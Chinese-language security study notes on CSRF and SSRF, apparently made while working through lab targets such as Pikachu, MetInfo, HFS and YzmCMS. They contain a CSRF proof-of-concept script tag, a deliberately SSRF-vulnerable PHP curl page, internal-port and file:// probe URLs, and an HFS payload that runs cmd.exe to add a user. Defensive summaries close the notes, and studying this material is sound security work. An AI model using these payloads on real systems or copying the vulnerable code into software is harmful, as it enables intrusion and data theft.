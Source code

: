 
# 一、CSRF 简介与危害
CSRF（Cross-site request forgery）简称：跨站请求伪造，存在巨大的危害性。在 CSRF 的
攻击场景中，攻击者会伪造一个请求（这个请求一般是一个链接），然后欺骗目标用户进行点
击，用户一旦点击了这个请求，整个攻击就完成了，所以 CSRF 攻击也称为 one-click attack。

安装 pikachu
https://github.com/zhuifengshaonianhanlu/pikachu

恶意网站：
```
<script src='http://localhost/pikachu/vul/csrf/csrfget/csrf_get_edit.php?sex=gg&phonenum=1111&add=11111&email=111111&submit=submit'>
</script>
gao qin dong zuo pian
```

或者修改时使用BurpSuite:
Engagement tools->generate CSRF POC


POC放到远程恶意服务器上，然后本地浏览器访问http://192.168.163.133/csrf01.html，点击后即会修改资料信息。


CSRFTester-1.0 端口号和浏览器保持一致
案例 1:MetInfo
![[Pasted image 20241031180347.png]]
注意数据表非空字段限制！


案例 2：zblog






总结：
HTTP_REFERER不同
预防：
同源策略
关键业务验证（短信，邮件、人脸识别）






# 二、SSRF 简介与危害

SSRF(Server-Side Request Forgery,服务器请求伪造)是一种由攻击者构造请求,由服务端发
起请求的安全漏洞,一般情况下,SSRF 攻击的目标是外网无法访问的内网系统(正因为请求时由
服务端发起的,所以服务端能请求到与自身相连而与外网隔绝的内部系统)。
攻击者通过篡改 URL 路径遍历或完全替换它来操纵 URL， 以向他们选择的任意域发出 HTTP
请求。 SSRF 攻击可以利用链接到组织基础架构内，不应向用户公开的内部服务或用户不应访问外部系统的URL。


新建ssrf.php：
```
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>SSRF</title>
</head>

<body>
远程图片加载器
<form action="" method="POST">
请输入图片地址：<input type='text' name='url'>
<input type='submit' value="提交">
</form>
</body>

<?php
$_POST['url'];
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $_POST['url']);
curl_setopt($ch, CURLOPT_HEADER, false);
curl_exec($ch);
curl_close($ch);
?>
```

访问外部网站图片链接：
![[Pasted image 20241101105301.png]]


案例 1：内网探测 http
http://127.0.0.1:80
http://127.0.0.1:3306/

案例 2：读取本地文件 file
file://C:\Users\86188\Desktop\pwd.txt

案例 3：探测 ftp
ftp://192.168.0.19:21

总结危害：
@ 端口扫描
@ 内网 Web 应用指纹识别
@ 攻击内网 Web 应用
@ 读取本地文件


HFS漏洞
```
攻击 payload 及过程：
Payload：
http://192.168.0.2:8080/?search==%00{.exec|cmd.exe /c [Command-String].}
攻击过程实例：
http://192.168.0.2:8080/?search==%00{.exec|cmd.exe /c net user test1234 1234 /add.}



```

![[Pasted image 20241101113037.png]]

```
测试：
查看当前用户
net user
攻击
http://192.168.0.2:8080/?search==%00{.exec|cmd.exe%20/c%20net%20user%20test1234%201234%20/add.}
再次看用户
net user
删除用户
net user test1234 /del


防御手段：
1、禁止跳转。
2、限制协议。
3、内外网限制。
4、URL限制。
```



YzmCMS 漏洞
```
1.登录管理
http://localhost/yzm/admin/index/login.html
2.新增 html 页面
放到 yzmCMS 根目录
<ssrf>
<a href="file://C:\Users\86188\Desktop\tool\pwd.txt">ssrf demo</a>
</ssrf>

3.新增采集任务



```


![[Pasted image 20241101120116.png]]

4.测试

![[Pasted image 20241101120141.png]]


==============================================================================================================================


SSRF 成因与防御

==原因==
==由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制==

防御

==检验参数，不允许内网段 IP 操作==
==限制协议为 HTTP、HTTPS,禁用不需要的协议可以防止类似于 file:// ftp:// 等引起的问题统一错误信息，避免用户可以根据错误信息来判断远端服务器的端口状态。==
==过滤返回信息，验证远程服务器对请求的响应是比较容易的方法。如果 web 应用是去获取某一种类型的文件。那么在把返回结果展示给用户之前先验证返回的信息是否符合标准==

==============================================================================================================================
